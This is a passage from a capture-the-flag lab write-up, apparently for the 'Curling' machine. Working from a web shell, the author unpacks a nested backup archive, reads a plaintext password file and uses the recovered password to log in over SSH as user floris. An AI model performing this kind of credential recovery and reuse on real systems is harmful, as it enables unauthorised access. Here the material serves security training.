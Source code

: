 And then unzip the archive:

```Shell
p0wny@shell:/home/floris# gunzip -d /tmp/test.gz
```

We then identify the file as another bz2 and can rename it:

```Shell
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: bzip2 compressed data, block size = 900k

p0wny@shell:/home/floris# mv /tmp/test /tmp/test.bz2
```

We then can decompress the bz2:

```Shell
p0wny@shell:/home/floris# bzip2 -d /tmp/test.bz2
```

We can identify the file as a tar ball and rename it for good measure:

```Shell
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: POSIX tar archive (GNU)

p0wny@shell:/home/floris# mv /tmp/test /tmp/test.tar
``` 

Now let's deflate the tar ball:

```Shell
p0wny@shell:/home/floris# cd /tmp

p0wny@shell:/tmp# tar -xvf /tmp/test.tar

password.txt
```

We now can get the contents of the backed up password file:

```Shell
p0wny@shell:/tmp# cat password.txt

5d<wdCbdZu)|hChXll
```

Because we have some non-standard characters here, I do not believe this string is encoded and is a text representation of the password. Let's try to use it on the SSH service for user Floris.

We are able to successfully use the password to login to user floris via SSH:

```Shell
$ ssh floris@curling.htb

floris@curling:~$ id

uid=1000(floris) gid=1004(floris) groups=1004(floris)
```
